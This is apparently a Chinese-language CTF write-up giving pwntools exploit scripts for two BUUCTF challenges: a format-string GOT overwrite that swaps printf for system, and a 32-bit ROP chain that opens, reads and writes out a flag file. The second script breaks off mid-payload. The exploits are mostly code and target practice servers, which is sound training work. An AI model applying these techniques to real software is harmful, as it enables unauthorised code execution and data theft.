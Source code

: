 # buu077-wdb_2018_2nd_easyfmt
这题在bugku上也有，好像是叫pwn07，简单的格式化字符串漏洞，不多解释了。
```py
from pwn import *
from LibcSearcher import *
context(arch='i386', os='linux', log_level='debug')

elf = ELF('./pwn')

io = remote('node4.buuoj.cn', 29596)
# io = process('./pwn')
io.recvuntil(b'Do you know repeater?\n')

payload1 = p32(elf.got['read']) + b'%6$s'
io.send(payload1)

mem_read_addr = u32(io.recv()[4:8])

libc = LibcSearcher('read', mem_read_addr)
libc_base = mem_read_addr - libc.dump('read')
mem_sys_addr = libc_base + libc.dump('system')
mem_printf_addr = libc_base + libc.dump('printf')

payload2 = fmtstr_payload(6, {elf.got['printf']: mem_sys_addr}, write_size = 'byte')
io.send(payload2)
io.interactive()	# choose 3rd of libc
```

# buu078-PicoCTF_2018_can-you-gets-me
静态编译的32位程序，没有system函数和字符串/bin/sh，因此通过orw方式读取flag。
```py
from pwn import *
context.log_level = 'debug'

# io = process('./PicoCTF_2018_can-you-gets-me')
io = remote('node4.buuoj.cn', 27340)
elf = ELF('./PicoCTF_2018_can-you-gets-me')

pop4 = 0x809d6f4
write_addr = 0x80EBD20

payload = cyclic(0x18 + 4)
payload += p32(elf.symbols['read'])
payload += p32(pop4)
payload += p32(0)
payload += p32(write_addr)
payload += p32(5)
payload += p32(0)
payload += p32(elf.symbols['open'])
payload += p32(pop4)
payload += p32(write_addr)
payload += p32(0) * 3
payload += p32(elf.symbols['read'])
payload += p32(pop4)
payload += p32(3)
payload += p32(write_addr)
payload += p32(0x30)
payload += p32(0)
payload += p32(elf.symbols['write'])
payload += p32(0)
payload += p32(1)
```